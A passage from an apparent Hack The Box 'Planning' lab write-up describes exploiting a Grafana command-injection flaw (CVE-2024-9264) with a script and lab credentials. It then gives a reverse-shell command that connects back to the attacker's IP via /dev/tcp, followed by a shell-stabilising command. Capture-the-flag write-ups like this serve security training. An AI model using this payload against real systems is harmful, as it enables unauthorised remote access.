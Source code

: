 <figure><img src=".gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

We successfully do **Command Injection** on target machine.

## Maintaining Access

With current script, we have limited shell access. To maintain our access, we should establish stable interactive shell. We can craft payload to establish reverse shell on our machine.

```
python3 CVE-2024-9264.py -u admin -p '0D5oT70Fq13EvB5r' -c '/bin/bash -c "sh -i >& /dev/tcp/10.10.16.103/9003 0>&1"'  http://grafana.planning.htb
```

<figure><img src=".gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

We successfully establish a reverse shell, but it doesn't look really stable. So, I did bit more research on stabilizing shell, I found this article \[[Stabilize Shell Like A Pro](https://medium.com/h7w/how-to-stabilize-a-shell-like-a-pro-without-losing-your-mind-bcb28c4fe79e)].

```
script -qc bash /dev/null
```

<figure><img src=".gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>
